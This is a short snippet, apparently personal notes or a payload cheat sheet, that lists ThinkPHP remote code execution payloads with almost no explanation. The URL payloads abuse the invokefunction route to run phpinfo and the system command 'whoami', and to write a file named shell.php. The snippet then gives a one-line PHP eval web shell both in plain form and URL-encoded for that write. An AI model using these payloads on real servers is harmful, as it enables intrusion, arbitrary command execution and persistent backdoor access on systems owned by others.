

```
/index.php?s=index/\think\app/invokefunction&function=phpinfo&vars[0]=100
index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
写入文件
/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell.php&vars[1][]=加你要写入的文件内容url编码

<?php @eval($_POST['shell']);?>
%3c%3f%70%68%70%20%40%65%76%61%6c%28%24%5f%50%4f%53%54%5b%27%73%68%65%6c%6c%27%5d%29%3b%3f%3e

```
